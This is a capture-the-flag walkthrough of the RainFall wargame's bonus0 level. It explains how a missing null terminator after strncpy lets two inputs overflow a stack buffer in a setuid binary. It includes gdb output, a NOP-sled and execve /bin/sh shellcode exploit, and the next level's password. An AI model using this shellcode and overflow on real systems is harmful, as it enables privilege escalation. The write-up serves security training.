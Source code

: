 # bonus0 walkthrough

There is setuid binary which reads two arguments:

    bonus0@RainFall:~$ ./bonus0
    -
    smth
    -
    another
    smth another
    bonus0@RainFall:~$

After analyzing it with gdb we can find three interesting functions: main(), pp() and p().
We see that in p() function, we can read 4096 characters in a non null-terminated buffer.
Then strncpy() is being called to copy the first 20 bytes or less, which is vulnerable because there would be no terminating character at the end of the string if we provide more than 20 bytes.
So the main buffer should look like this:
arg1 + arg2 + space + arg2 -> if arg1 is not null terminated (if first input is 20 characters or longer) but arg2 is null terminated (2nd input shorter than 20 characters long).
So we can copy 40 + 1 + 20 (61) chars into buffer, of size 42 => we'll have 19 bytes to write over eip address.
Lets find the offset:

    (gdb) run
    Starting program: /home/user/bonus0/bonus0
    - 
    01234567890123456789
    -
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa Aa0Aa1Aa2Aa3Aa4Aa5Aa

    Program received signal SIGSEGV, Segmentation fault.
    0x41336141 in ?? ()
    (gdb) info registers
    eax            0x0      0
    ecx            0xffffffff       -1
    edx            0xb7fd28b8       -1208145736
    ebx            0xb7fd0ff4       -1208152076
    esp            0xbffff740       0xbffff740
    ebp            0x32614131       0x32614131
    esi            0x0      0
    edi            0x0      0
    eip            0x41336141       0x41336141
    eflags         0x210282 [ SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    (gdb)

Thanks to the pattern generator we found that the offset of eip starts at 9.
Lets see what our inputs should look like:
1st arg: We would need to fill up the large buffer in p() with a padding of NOP instructions and our shellcode. The size of the padding doesn't matter because we just need to put a random address between the start address of our buffer[4096] (+61 bytes for args) and the end of our padding.

    => buffer[4096] : | [ 20 bytes NOP first arg ] + NOP * (x - 20) + [ shellcode ] | 
                    ^                                                             ^
                start address                                                  end address

2nd arg: With the offset of eip register we can overwrite the eip address and replace it with random address between the start address of our buffer (+61 bytes) and the end of our padding.

    => buffer[4096] : | [ 20 bytes NOP first arg ] + [ 20 bytes - 2nd arg ] + [ space ] + [ offset ] + [ address in NOP series ] + [ rest] + NOP * x + [ shellcode ] | 
                    ^                                                                   |------------------ 20 bytes ------------------|                           ^
                start address                                                                                                                                   end address

## Create an exploit:

We can use the same shell code as in level2:

    1st step: Create our first input with a padding of NOP instructions greater than 61 bytes and less than [4096 bytes - our shellcode]
        100 * NOP instruction + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
    2nd step: Find our buffer[4096] address in order to determine the address between the start of our buffer + 61 and the end of the NOP instructions.

    (gdb) disass p
    Dump of assembler code for function p:
    [...]
    0x080484d0 <+28>:    lea    eax,[ebp-0x1008]    // buffer start
    [...]
    (gdb) b *p+28
    Breakpoint 1 at 0x80484d0
    (gdb) run
    Starting program: /home/user/bonus0/bonus0

    Breakpoint 1, 0x080484d0 in p ()
    (gdb) x $ebp-0x1008
    0xbfffe680:     0x00000000

Choose an address between 0xbfffe680 + 61 (0xbfffe6bd) and 0xbfffe680 + 100 (0xbfffe6e4) => 0xbfffe6d0 (\xd0\xe6\xff\xbf)  

    3rd step : Final exploit
        1st arg = python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
        2nd arg = python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'

    bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
    AAAAAAAAABBBBBBB AAAAAAAAABBBBBBB
    whoami
    bonus1
    cat /home/user/bonus1/.pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
